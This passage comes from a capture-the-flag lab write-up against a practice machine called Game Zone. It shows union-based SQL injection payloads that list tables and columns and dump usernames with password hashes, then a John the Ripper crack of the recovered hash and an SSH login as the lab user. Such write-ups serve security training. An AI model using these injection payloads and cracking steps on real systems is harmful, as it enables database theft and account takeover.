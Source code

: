 The `db` database seems juicy, so let's enumerate the tables of the database `db`.

```sql
1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="db"-- -
```

Once executed we can see 2 tables.

![Desktop View](GameZoneSQLI4.png)

The `users` table seems juicy, so let's query the columns.

```sql
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"-- -
```

![Desktop View](GameZoneSQLI5.png)

We can see 4 columns in total, but we are more interested in the `username` and `pwd` columns, so let's query the content of the columns.

```sql
1' union select 1,2,group_concat(username,0x3a,pwd) from db.users-- -
```

This will dump all the users and their password/hashes.

![Desktop View](GameZoneSQLI6.png)

There we go we have found a **user** and a **hash**: `agent47:ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

Let's try to crack the hash.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
v***oga*****4    (agent47)     
```

Once cracked i used the credentials to log in in the website, but nothing new, the same search form, so let's try the credentials in the `ssh` service.

## Shell as Agent47

```bash
❯ ssh agent47@10.10.236.19
agent47@10.10.236.19's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Mon Mar  3 09:54:57 2025 from 10.14.99.119
agent47@gamezone:~$ whoami
agent47
```
